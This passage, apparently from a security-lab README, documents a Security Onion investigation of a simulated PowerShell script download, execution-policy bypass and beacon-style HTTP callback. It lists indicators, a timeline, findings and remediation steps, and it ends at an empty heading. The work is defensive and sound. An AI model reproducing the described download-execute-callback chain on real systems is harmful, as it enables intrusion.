| SHA1 | `2c4abda0544336d2a64e49e81e85e9b764934650` | Artifact hash |
| SHA256 | `03dd2f82509e5ece3cde402a2fa5ec47c7d621e27b7ae7fa8a27d16bfbdc28db` | Artifact hash |
| Execution PID | `10908` | PowerShell process in the primary execution run |
| Parent Process | `explorer.exe` | User-initiated execution origin |
| Child Process | `whoami.exe` | User discovery |
| Child Process | `cmd.exe` | Created `soc-lab-child.txt` |
| Execution Artifact | `C:\Users\Public\soc-lab-execution.txt` | Script-created file |
| Child Artifact | `C:\Users\Public\soc-lab-child.txt` | CMD-created file |
| Callback URI | `/checkin?host=VICTIM&user=admin` | Harmless callback |
| Validation PID | `9180` | PowerShell PID used during detection validation |
| Detection UUID | `8c1b74d4-6b8f-4fc4-a62c-3a770b7da551` | Execution-bypass Sigma rule |

All values above belong to the isolated lab.

---

# Security Onion Case Management

The investigation was documented in Security Onion Cases as:

**Suspicious PowerShell Download and Execution with HTTP Callback**

The case included:

* High severity
* investigation summary
* affected endpoint
* network indicators
* file hash
* delivery URL
* timeline
* analyst recommendations
* disposition
* closure notes

The principal observables were preserved directly in the case:



The final disposition was:

```text
True Positive — Authorized/Benign Lab Activity
```

Impact:

```text
None
```

Detection improvement:

```text
Completed and validated
```



The case was closed only after the activity had been correlated, scoped, documented, and the identified detection gap had been addressed.

---

# Findings and Analyst Verdict

The investigation established the following:

* PowerShell successfully downloaded `win-update.ps1` over HTTP.
* Zeek observed the complete `709`-byte transferred object.
* Endpoint MD5 and SHA1 hashes matched the network-side Zeek hashes.
* The downloaded script was reviewed before execution.
* `explorer.exe` initiated PowerShell execution from `C:\Users\Public`.
* PowerShell launched `whoami.exe` and `cmd.exe`.
* Endpoint file telemetry tied created artifacts to the responsible processes.
* PowerShell generated an HTTP callback to the controlled server.
* Endpoint, Zeek, and Suricata telemetry independently supported the callback timeline.
* A cross-source timeline reconstructed the execution sequence.
* The execution-policy-bypass behavior was visible in telemetry but lacked a dedicated detection.
* A behavioral Sigma rule was created and successfully validated.
* The available lab telemetry was scoped for equivalent network and execution behavior.
* The investigation was documented and closed through Security Onion Cases.

The activity was a **true positive for the detected behaviors**, but it was authorized and benign because it was intentionally generated inside the isolated lab.

In a real environment, the combination of HTTP script delivery, execution from a user-writable path, PowerShell execution-policy bypass, child-process creation, file creation, and outbound HTTP activity would justify deeper investigation.

No single indicator should be treated as proof of compromise in isolation. The strength of the investigation came from correlation across independent endpoint and network sources.

---

# Recommendations and Remediation

If equivalent activity occurred unexpectedly in a production environment:

* validate the user, endpoint, parent process, and business context
* preserve the downloaded file and calculate hashes
* inspect the full PowerShell command line and process tree
* review PowerShell Script Block Logging where available
* inspect files created or modified by the process
* correlate endpoint network telemetry with Zeek, proxy, firewall, and IDS data
* hunt for the filename, SHA256, URL, domain, destination, and execution behavior
* review the user's authentication activity if broader compromise is suspected
* isolate the endpoint if the activity is confirmed unauthorized
* block confirmed malicious infrastructure according to organizational procedures
* preserve forensic evidence before destructive remediation
* deploy and tune behavioral detection logic
* validate new detections in a controlled environment
* monitor for recurrence

No remediation was required in this lab because the payload and infrastructure were controlled and benign.

---

# Supporting Evidence

The repository retains the full screenshot set under `screenshots/`.

The main README intentionally embeds only the strongest evidence needed to explain the investigation. Additional screenshots provide deeper detail without making the primary narrative repetitive.

Examples of supporting evidence include:

```text
01-powershell-script-download.png
03-sigma-powershell-download-process-details.png
04-suricata-ps1-http-request-details.png
06-zeek-http-successful-download.png
13-post-execution-network-alerts.png
14-http-callback-details.png
15-post-execution-host-artifacts.png
20-sigma-detection-match-details.png
21-environment-wide-network-scoping.png
22-environment-wide-execution-scoping.png
23-mitre-t1105-ingress-tool-transfer.png
24-mitre-t1059-001-powershell.png
25-security-onion-case-summary.png
27-case-incident-timeline.png
28-case-analyst-recommendations.png
29-case-closure-notes.png
```

---

# What I Learned


